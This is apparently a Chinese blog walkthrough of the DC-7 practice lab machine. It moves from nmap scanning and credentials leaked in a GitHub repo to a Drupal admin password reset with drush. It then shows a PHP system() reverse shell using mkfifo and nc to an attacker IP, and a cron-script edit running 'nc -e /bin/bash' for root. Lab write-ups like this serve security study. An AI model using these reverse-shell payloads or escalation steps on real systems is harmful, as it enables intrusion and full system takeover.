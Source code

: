 ```yaml
---
layout: post
title: DC-7
subtitle: DC-7
date: 2025-07-16 09:47
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
---
```

## 信息搜集

ip扫描发现 `192.168.163.131`

![image.png](https://img.ghostliner.top/8pzokb.png)

nmap扫描端口

```shell
nmap -T4 -A -p- 192.168.163.131
```

![image.png](https://img.ghostliner.top/7M8xan.png)

访问站点发现特殊字符串

![image.png](https://img.ghostliner.top/RdFxZA.png)

必应搜索 `DC7USER` 发现GitHub项目 `staffdb` 
[Dc7User/staffdb](https://github.com/Dc7User/staffdb)

在配置文件中发现mysql数据库连接配置

![image.png](https://img.ghostliner.top/EfjNcG.png)

```php
<?php
	$servername = "localhost";
	$username = "dc7user";
	$password = "MdR3xOgB7#dW";
	$dbname = "Staff";
	$conn = mysqli_connect($servername, $username, $password, $dbname);
?>
```

## 渗透测试

使用该用户名密码进行SSH连接，成功

查看目录，发现mbox邮件文件和网站备份文件

![image.png](https://img.ghostliner.top/LC5ABy.png)

查看mbox文件，发现定时执行脚本：`/opt/scripts/backups.sh`

查看 `/var/mail/dc7user` 文件，发现自动化任务间隔15分钟

![image.png](https://img.ghostliner.top/WVsmvH.png)

查看脚本权限，发现当前用户无法写入，但是 `www-data`可以

![image.png](https://img.ghostliner.top/OoOhy8.png)

查看脚本内容：

```shell
#!/bin/bash
rm /home/dc7user/backups/*
cd /var/www/html/
drush sql-dump --result-file=/home/dc7user/backups/website.sql
cd ..
tar -czf /home/dc7user/backups/website.tar.gz html/
gpg --pinentry-mode loopback --passphrase PickYourOwnPassword --symmetric /home/dc7user/backups/website.sql
gpg --pinentry-mode loopback --passphrase PickYourOwnPassword --symmetric /home/dc7user/backups/website.tar.gz
chown dc7user:dc7user /home/dc7user/backups/*
rm /home/dc7user/backups/website.sql
rm /home/dc7user/backups/website.tar.gz
```

发现drush命令：[dupal 瑞士军刀：drush 命令大全](https://www.dwoke.com/node/436)

### 用户提权

尝试www-data用户提权

```shell
cd /var/www/html
# 更改admin用户密码
drush user-password admin --password="admin"
```

![image.png](https://img.ghostliner.top/pDzFGN.png)

网站登录成功，尝试反弹shell获取 `www-data`用户权限，以更改 `backups.sh`脚本

安装插件： https://ftp.drupal.org/files/projects/php-8.x-1.0.tar.gz

![image.png](https://img.ghostliner.top/yk1FYQ.png)

开启插件
![image.png](https://img.ghostliner.top/E4bbaT.png)

勾选，点击页面最下方 `install`

### 反弹shell

在文章中添加脚本

```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -nv 192.168.163.132 4444 >/tmp/f');?>
```

![image.png](https://img.ghostliner.top/CxupAM.png)

反弹shell成功，编辑 `/opt/scripts/backups.sh` 文件

```shell
echo "nc -nv 192.168.163.132 5555 -e /bin/bash"
```

反弹shell成功，获取到root权限

![image.png](https://img.ghostliner.top/2aDj41.png)

### 查看flag

```shell
python -c "import pty;pty.spawn('/bin/bash')"
cat /root/theflag.txt
```

![image.png](https://img.ghostliner.top/tX2DGp.png)

